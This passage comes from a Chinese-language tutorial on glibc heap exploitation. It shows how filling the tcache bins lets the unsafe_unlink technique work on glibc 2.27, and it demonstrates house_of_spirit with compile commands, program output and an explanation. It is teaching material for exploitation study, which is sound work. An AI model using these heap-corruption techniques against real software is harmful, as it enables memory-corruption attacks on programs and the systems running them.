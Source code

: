 glibc-2.26引入了tcache机制，这是一种线程缓存机制，每个线程默认情况下有 64 个大小递增的 bins，每个 bin 是一个单链表，默认最多包含 7 个 chunk。其中缓存的 chunk 是不会被合并的，所以在释放 chunk 1 的时候，\verb+chunk0_ptr+ 仍然指向正确的堆地址，而不是之前的 \verb+chunk0_ptr = P = P->fd+。
为了解决这个问题，一种可能的办法是给填充进特定大小的 chunk 把 bin 占满，就像下面这样：
\begin{verbatim}
    int *a[10];
    int i;
    for (i = 0; i < 7; i++) {
        a[i] = malloc(0x80);
    }
    for (i = 0; i < 7; i++) {
        free(a[i]);
    }
\end{verbatim}

程序中添加如上代码，运行：
\begin{verbatim}
$ ./unsafe_unlink
The global chunk0_ptr is at 0x601070, pointing to 0x6aa260
The victim chunk we are going to corrupt is at 0x6aa2f0

Fake chunk fd: 0x601058
Fake chunk bk: 0x601060

Original value: AAAAAAAA
New Value: BBBBBBBB
\end{verbatim}
利用成功，那么如果我们绕过glibc-2.27中的tcache，即unsafe\_unlink的漏洞仍然存在。

\subsection{house\_of\_spirit}
编译、运行，得到如下结果：
\begin{verbatim}
$  how2heap-g227 gcc -g -L/root/tmpwork/g227/lib -Wl,--rpath=/root/tmpwork/g227/lib -Wl,--dynamic-linker=/root/tmpwork/g227/lib/ld-linux-x86-64.so.2 house_of_spirit.c -o house_of_spirit

$  how2heap-g227 ./house_of_spirit
We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.
The first one:  0x7ffda0ac1420
The second one: 0x7ffda0ac1440
Overwritting our pointer with the address of the fake region inside the fake first chunk, 0x7ffda0ac1420.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffda0ac1420, which will be 0x7ffda0ac1430!
malloc(0x10): 0x7ffda0ac1430
\end{verbatim}

本攻击成功的原因是，我们已经控制了一个将被\verb+ free+的指针，且已经布置好了一个fastbin的\verb+ fake_chunk+的相关参数，接着在\verb+ free+操作时, 这个栈上的“堆块”即被投入 fastbin 中。
下一次\verb+ malloc+对应的大小时, 由于 fastbin 的机制为先进后出, 故上次\verb+ free+的栈上的“堆块”能够被优先返回给用户。

